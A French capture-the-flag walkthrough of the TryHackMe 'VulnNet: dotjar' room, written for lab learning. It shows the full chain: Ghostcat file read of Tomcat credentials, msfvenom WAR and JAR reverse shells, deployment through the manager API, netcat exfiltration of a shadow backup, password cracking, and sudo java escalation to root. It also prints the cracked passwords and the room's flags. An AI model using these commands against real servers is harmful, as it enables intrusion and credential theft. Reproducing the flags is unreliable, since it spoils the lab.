

# VulnNet: dotjar #

## Task 1 VulnNet: dotjar ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.65.148 dotjar.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A dotjar.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 17:43 CEST
Nmap scan report for dotjar.thm (10.10.65.148)
Host is up (0.035s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/25%OT=8009%CT=1%CU=44641%PV=Y%DS=2%DC=T%G=Y%TM=6176
OS:D100%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW
OS:6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=F4B3%
OS:W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506N
OS:NSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   33.74 ms 10.9.0.1
2   33.57 ms dotjar.thm (10.10.65.148)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.92 seconds
```

D'après nmap on a plusieurs services :  
Le service ajp13 sur le port 8009.   
Le service http sur le port 8080.   

D'après nmap on est sur la version de Tomcat 9.0.30.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/hypn0s/AJPy/master/tomcat.py -q

tim@kali:~/Bureau/tryhackme/write-up$ python tomcat.py read_file WEB-INF/web.xml dotjar.thm
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>VulnNet Entertainment</display-name>
  <description>
     VulnNet Dev Regulations - mandatory
 
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    webdev:Hgj3LA$02D$Fa@21
 
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>

</web-app>

```

Tomcat est vulnérable à la faille ghostcat.  
Nous lisons des identifiants dans le fichier WEB-INF/web.xml.     
Les identifiants sont : webdev:Hgj3LA$02D$Fa@21  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.228.66 LPORT=1234 -f war -o revshell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
Saved as: revshell.war
```

On crée un reverse shell à injecter.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur le port 1234 pour avoir le shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --user 'webdev:Hgj3LA$02D$Fa@21' --upload-file revshell.war  "http://dotjar.thm:8080/manager/text/deploy?path=/revshell.war"
OK - Deployed application at context path [/revshell.war]
```

On injecte notre reverse shell.   

  

On exécute l'exploit.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.65.148.
Ncat: Connection from 10.10.65.148:35628.
id
uid=1001(web) gid=1001(web) groups=1001(web)
python3 -c 'import pty;pty.spawn("/bin/bash")'

web@vulnnet-dotjar:/$ cd /var/backups
cd /var/backups
ls -al
total 2652
drwxr-xr-x  2 root root      4096 Oct 25 17:46 .
drwxr-xr-x 13 root root      4096 Jan 15  2021 ..
-rw-r--r--  1 root root    102400 Oct 25 17:46 alternatives.tar.0
-rw-r--r--  1 root root      2763 Jan 15  2021 alternatives.tar.1.gz
-rw-r--r--  1 root root     13208 Jan 31  2021 apt.extended_states.0
-rw-r--r--  1 root root      1419 Jan 31  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      1542 Jan 15  2021 apt.extended_states.2.gz
-rw-r--r--  1 root root        11 Jan 15  2021 dpkg.arch.0
-rw-r--r--  1 root root        43 Jan 15  2021 dpkg.arch.1.gz
-rw-r--r--  1 root root        43 Jan 15  2021 dpkg.arch.2.gz
-rw-r--r--  1 root root        43 Jan 15  2021 dpkg.arch.3.gz
-rw-r--r--  1 root root       280 Jan 15  2021 dpkg.diversions.0
-rw-r--r--  1 root root       160 Jan 15  2021 dpkg.diversions.1.gz
-rw-r--r--  1 root root       160 Jan 15  2021 dpkg.diversions.2.gz
-rw-r--r--  1 root root       160 Jan 15  2021 dpkg.diversions.3.gz
-rw-r--r--  1 root root       228 Jan 15  2021 dpkg.statoverride.0
-rw-r--r--  1 root root       179 Jan 15  2021 dpkg.statoverride.1.gz
-rw-r--r--  1 root root       179 Jan 15  2021 dpkg.statoverride.2.gz
-rw-r--r--  1 root root       179 Jan 15  2021 dpkg.statoverride.3.gz
-rw-r--r--  1 root root   1383027 Feb  2  2021 dpkg.status.0
-rw-r--r--  1 root root    373294 Jan 31  2021 dpkg.status.1.gz
-rw-r--r--  1 root root    375385 Jan 15  2021 dpkg.status.2.gz
-rw-r--r--  1 root root    366250 Jan 15  2021 dpkg.status.3.gz
-rw-------  1 root root       857 Jan 15  2021 group.bak
-rw-------  1 root shadow     711 Jan 15  2021 gshadow.bak
-rw-------  1 root root      1745 Jan 15  2021 passwd.bak
-rw-r--r--  1 root root       485 Jan 16  2021 shadow-backup-alt.gz
-rw-------  1 root shadow    1179 Jan 16  2021 shadow.bak

```

On a un shell avec les droits web.  
On trouve un backup des fichiers passwd dans /var/backups.
On peut lire le fichier shadow-backup-alt.gz.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1337 > shadow.gz
web@vulnnet-dotjar:/var/backups$ nc 10.9.228.66 < ./shadow-backup-alt.gz
nc 10.9.228.66 < ./shadow-backup-alt.gz
```

On transfert le fichier.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gunzip shadow.gz 
tim@kali:~/Bureau/tryhackme/write-up$ john -w=/usr/share/wordlists/rockyou.txt  shadow 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
794613852        (jdk-admin)
1g 0:00:02:23 2,72% (ETA: 19:56:51) 0.006978g/s 3165p/s 6520c/s 6520C/s 0000tb..zalasar
Use the "--show" option to display all of the cracked passwords reliably
```

On décompresse le fichier et on casse les mots de passes.  
On trouve un mot de passe pour jdk-admin qui est 794613852.  

**What is the user flag? (user.txt)**

```bash
su jdk-admin
Password: 794613852

jdk-admin@vulnnet-dotjar:/var/backups$ cd ~
cd ~
jdk-admin@vulnnet-dotjar:~$ cat user.txt
cat user.txt
THM{1ae87fa6ec2cd9f840c68cbad78e9351}
```

Avec les identifiants on se connecte avec l'utilisateur jdk-admin.  
Dans le répertoire de l'utilisateur on lit le fichier user.txt et on trouve le flag.  
Le flag est : THM{1ae87fa6ec2cd9f840c68cbad78e9351}

**What is the root flag? (root.txt)**  

```bash
jdk-admin@vulnnet-dotjar:~$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 794613852                            

Matching Defaults entries for jdk-admin on vulnnet-dotjar:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
```

On voit que sudo est configuré  pour exécuter java avec les droits root.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfvenom --platform java -f jar -p java/shell_reverse_tcp LHOST=10.9.228.66 LPORT=3333 -o shell.jar
Payload size: 7508 bytes
Final size of jar file: 7508 bytes
Saved as: shell.jar
```

On crée un reverse shell en java.   

```bash
jdk-admin@vulnnet-dotjar:/tmp$ nc -lp 4444 > shell.jar
nc -lp 4444 > shell.jar
tim@kali:~/Bureau/tryhackme/write-up$ nc dotjar.thm 4444 < shell.jar
```

On transfert notre reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 3333
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::3333
Ncat: Listening on 0.0.0.0:3333
```

On écoute le port 3333 pour avoir le shell.  

```bash
jdk-admin@vulnnet-dotjar:/tmp$ sudo /usr/bin/java -jar shell.jar
sudo /usr/bin/java -jar shell.jar
Password: 794613852
```

On exécute le reverse shell.   

```bash
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::3333
Ncat: Listening on 0.0.0.0:3333
Ncat: Connection from 10.10.65.148.
Ncat: Connection from 10.10.65.148:54838.
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
THM{464c29e3ffae05c2e67e6f0c5064759c}
```

On obtient un shell root, on lit le fichier root.txt dans root et on obtient un flag.   
Le flag est : THM{464c29e3ffae05c2e67e6f0c5064759c}    
